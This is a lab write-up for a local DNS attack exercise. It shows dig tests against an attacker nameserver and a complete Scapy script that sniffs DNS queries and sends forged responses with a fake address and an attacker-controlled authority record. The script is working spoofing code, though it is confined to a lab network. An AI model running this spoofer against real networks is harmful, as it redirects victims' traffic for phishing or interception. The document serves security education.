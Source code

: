 # Local DNS Attack Lab

## 2.4 Testing the DNS Setup

```
$ dig ns.attacker32.com
```
![Screenshot 2025-05-17 124530](https://github.com/user-attachments/assets/9908283a-6417-4be0-a1af-c29fd41451be)

We can see that the answer comes from the attacker nameserver because the dig command only returns the attacker namerserver IP adress.

---

```
$ dig www.example.com
```
![image](https://github.com/user-attachments/assets/12389a65-8795-4317-b38a-425e35e15478)

When trying to access ``` www.example.com ``` the DNS nameserver used is not the malicious one.

---

```
$ dig @ns.attacker32.com www.example.com
```
![image](https://github.com/user-attachments/assets/95c05e42-6cfc-442d-a154-0d809fa0dacf)

If we explicitly ask the attacker nameserver, we get a different (and false) IP adress for ```www.example.com```


#### Our goal: Get the user to ask the malicious nameserver first.  
---

## 3.1 Directly Spoofing Response to User

This is the script we used to spoof the DNS packet.
``` python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.0.2.5') # Create an answer record
                # The Authority Section
                NSsec1 = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
                NSsec2 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='ns2.example.net')
                # The Additional Section
                Addsec1 = DNSRR(rrname='ns.attacker32.com', type='A', ttl=259200, rdata='10.9.0.153')
                Addsec2 = DNSRR(rrname='ns2.example.net', type='A', ttl=259200, rdata='5.6.7.8')

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2, an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53" # only capture UDP traffic with destination port 53
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

When we now execute ``` dig www.example.com ``` on the ``` user ``` machine, we see this:

![image](https://github.com/user-attachments/assets/3f77ea7b-ba63-4e16-ab09-781bc08a1894)

The answer contains the IP adress we inserted (```10.0.2.5```) and our attacker nameserver (```ns.attacker32.com```).
